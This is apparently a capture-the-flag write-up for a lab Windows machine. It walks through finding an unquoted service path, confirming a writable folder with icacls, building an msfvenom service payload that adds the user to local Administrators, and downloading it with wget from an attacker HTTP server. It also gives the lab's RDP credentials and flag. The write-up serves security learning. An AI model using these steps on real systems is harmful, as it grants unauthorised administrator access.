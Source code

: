 # Quotient

> ************************Instructions************************
> 
> 
> Grammar is important. Don't believe me? Just see what happens when you forget punctuation.
> 
> Access the machine using RDP with the following credentials:
> 
> **Username:** sage
> 
> **Password:** gr33ntHEphgK2&V
> 
> Please allow 4 to 5 minutes for the VM to boot.
> 

# Overview Knownledge

### Unquoted Service

An unquoted service path vulnerability is where you have a path to a service executable and the folder names along that path have spaces in them without quotations.

When a service points to an executable in a path that has either no spaces or that does have spaces but is surrounded with quotes, the service will ride the path directly to the executable and start as intended. For example: C:\temp\service.exe and “C:\temp folder\service.exe” are correctly configured and will execute service.exe.

# Enumeration

After connect to the target machine, open the ****************terminal**************** and find the ********************************unquoted service******************************** on the machine

```tsx
C:\Users\Sage>wmic service get name,startmode, pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """
```

| Name | PathName | StartMode |
| --- | --- | --- |
| Development Service | C:\Program Files\Development Files\Devservice Files\Service.exe | Auto |
| LSM |  | Unknown |
| NetSetupSvc |  | Unknown |

The windows will try to execute:

- `C:\Program Files\`
- `C:\Program Files\Development Files\`
- `C:\Program Files\Development Files\Devservice Files\`
- `C:\Program Files\Development Files\Devservice Files\Service.exe`

If we have permissions to write in any of the **three folders** prior to the actual executable location, then we can craft an executable and name it based off the folder name in the path.

# Exploit

### Check `write` permission

```tsx
C:\Users\Sage>icacls "C:\Program Files" | findstr "Users"
                 BUILTIN\Users:(RX)
                 BUILTIN\Users:(OI)(CI)(IO)(GR,GE)
```

```tsx
C:\Users\Sage>icacls "C:\Program Files\Development Files" | findstr "Users"
                 BUILTIN\Users:(W)
                 BUILTIN\Users:(OI)(CI)(IO)(GR,GE)
```

```tsx
C:\Users\Sage>icacls "C:\Program Files\Development Files\Devservice Files" | findstr "Users"
                                                    BUILTIN\Users:(I)(RX)
                                                    BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
```

> `icacls`: Displays or modifies discretionary access control lists (DACLs) on specified files, and applies stored DACLs to files in specified directories.
> 

The directory `Development Files` which contains the sub-directory `Devservice Files` is ****************writable****************

→ A **************payload************** could be created at this place to exploit the machine

### Create payload

Verify the current user `sage` is in the `Users` Group:

```tsx
C:\Users\Sage>net user sage | findstr "Group"
Local Group Memberships      *Remote Desktop Users *Users
Global Group memberships     *None
```

On the local machine, use `msfvenom` to create a payload which will add the current user to **********************Local Admin Group**********************:

```tsx
msfvenom -p windows/exec CMD='net localgroup administrators user sage /add' -f exe-service -o Devservice.exe
```

Then, transfer the payload using `wget` on target machine and open the listener on local machine with `python3 -m http.server 80`

```tsx
PS C:\Users\Sage> wget http://10.8.97.213:80/Devservice.exe -O Devservice.exe
PS C:\Users\Sage> ls

    Directory: C:\Users\Sage

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         8/1/2023   1:27 PM                3D Objects
d-r---         8/1/2023   1:27 PM                Contacts
d-r---         8/1/2023   1:27 PM                Desktop
d-r---         8/1/2023   1:27 PM                Documents
d-r---         8/1/2023   1:27 PM                Downloads
d-r---         8/1/2023   1:27 PM                Favorites
d-r---         8/1/2023   1:27 PM                Links
d-r---         8/1/2023   1:27 PM                Music
d-r---         8/1/2023   1:27 PM                Pictures
d-r---         8/1/2023   1:27 PM                Saved Games
d-r---         8/1/2023   1:27 PM                Searches
d-r---         8/1/2023   1:27 PM                Videos
-a----         8/1/2023   1:29 PM          15872 Devservice.exe
```

Move the transferred payload to the vulnerable path:

```tsx
PS C:\Users\Sage> move Devservice.exe "C:\Program Files\Development Files\"
PS C:\Users\Sage> ls "C:\Program Files\Development Files\"

    Directory: C:\Program Files\Development Files

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         3/7/2022   3:03 AM                Devservice Files
-a----         8/1/2023   1:29 PM          15872 Devservice.exe
```

Unfortunately, user `sage` does not have permission to manually start the service because its `StartMode` is `Auto` (Result from **********************Enumeration********************** step)

```tsx
C:\Users\Sage>sc start "Development Service"
[SC] StartService: OpenService FAILED 5:

Access is denied.
```

So we have to restart (reboot) the machine and wait for it to ********************auto start******************** the service when booting into the system.

After that, verify the user `sage` is now in the ****************Local Admin Group:****************

```tsx
C:\Users\Sage>net user sage | findstr "Group"
Local Group Memberships      *Administrators       *Remote Desktop Users
Global Group memberships     *None
```

The system still does not allow us to access the ****************************Administrator**************************** directory through the terminal from the current path. **************************File Explorer************************** is the only way in this situation:

![Untitled](Quotient%20images/Untitled.png)

```tsx
C:\Users\Administrator\Desktop>more flag.txt
THM{USPE_SUCCESS}
```